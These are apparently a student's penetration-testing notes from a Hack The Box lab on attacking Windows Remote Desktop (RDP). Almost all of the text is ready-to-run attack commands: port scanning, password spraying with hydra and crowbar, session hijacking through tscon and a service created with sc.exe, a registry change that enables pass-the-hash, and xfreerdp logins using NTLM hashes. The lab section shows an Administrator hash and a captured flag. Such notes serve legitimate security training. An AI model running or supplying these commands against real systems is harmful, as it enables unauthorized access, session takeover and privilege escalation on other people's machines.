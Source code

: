 # Attacking RDP

## Enumeration

nmap -Pn -p3389 $TARGET

## Misconfigurations

cat usernames.txt 
crowbar -b rdp -s $TARGET -U users.txt -c 'password123'
hydra -L usernames.txt -p 'password123' $TARGET rdp

## RDP Login

rdesktop -u admin -p password123 $TARGET

## RDP Session Hijacking

On Powershell :
whoami
query user

tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}

If Administrator rights create a service run as Local System :
query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
net start sessionhijack

## RDP Pass-the-Hash (PtH)

Adding the DisableRestrictedAdmin Registry Key :
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f

xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9

## LAB

xfreerdp /u:htb-rdp /p:"HTBRocks!" /v:$TARGET

pentest-notes.txt
User: Administrator
Hash: 0E14B9D6330BF16C30B1924111104824

C:\Users\htb-rdp>reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
The operation completed successfully.

xfreerdp /v:$TARGET /u:Administrator /pth:0E14B9D6330BF16C30B1924111104824

HTB{RDP_P4$$_Th3_H4$#}